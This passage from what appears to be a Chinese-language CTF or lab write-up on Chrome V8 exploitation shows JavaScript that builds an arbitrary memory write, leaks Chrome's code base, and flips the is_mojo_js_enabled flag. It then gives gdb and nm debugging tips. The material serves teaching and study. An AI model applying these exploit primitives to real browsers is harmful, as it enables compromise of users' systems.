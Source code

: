 ```js
function aaw64(addr, val) {
    backup_high = oob[25];
    backup_low = oob[26];
    save = f2i64(oob[26]) & 0xffffffff00000000n;
    oob[25] = i642f((addr & 0xffffffff00000000n) | 7n); // high
    oob[26] = i642f(save + (((addr - 8n) | 1n) & 0xffffffffn)); // low
    victim_obj[0] = val;
    oob[25] = backup_high;
    oob[26] = backup_low;
}

let div = document.createElement('div');
let div_addr = high_heap | addrof(div);
console.log(`[+] div address: 0x${div_addr.toString(16)}`);

let addr_HTMLDivElement = aar64(div_addr + 0xcn);
console.log(`[+] HTMLDivElement: 0x${addr_HTMLDivElement.toString(16)}`);

let code_base = addr_HTMLDivElement - 0xc1bb7c0n;
console.log(`[+] codebase: 0x${code_base.toString(16)}`);

let mojo_js_enabled_addr = code_base + 0xc560f0en;
console.log(`[+] mojo_js_enabled: 0x${mojo_js_enabled_addr.toString(16)}`);

aaw64(mojo_js_enabled_addr, 0x1n);

%SystemBreak();
```

在測試環境中可以用 `%SystemBreak()` 下斷點，以下為 debug 時使用的 gdb script。不過麻煩的是，透過測試發現只能用 **xterm** 來 attach 上 render process，**tmux** 與 **gnome-terminal** 都不能用：

```bash
set follow-fork-mode parent
r --no-sandbox --headless --js-flags='--allow-natives-syntax' --renderer-cmd-prefix='xterm -geometry 100x50+10+10 -e gdb --args' --disable-gpu --user-data-dir=./userdata v8_exploit.html
```

不過因為 **xterm** 預設使用的 copy / paste 很難用，因此透過以下 command 可以讓我們使用 `shift` + `ctrl` + `c/v` 做到 copy / paste：

```bash
cat > ~/.Xresources
XTerm*vt100.translations: #override \
    Shift Ctrl <Key> C: copy-selection(CLIPBOARD) \n\
    Shift Ctrl <Key> V: insert-selection(CLIPBOARD)

xrdb -merge ~/.Xresources
```

`nm` 可以看 demangle 後的 C++ symbol，也能用來找 symbol 的 offset：

```bash
nm --demangle ./chrome | grep -i 'is_mojo_js_enabled'
# --demangle: make C++ function more readable
```
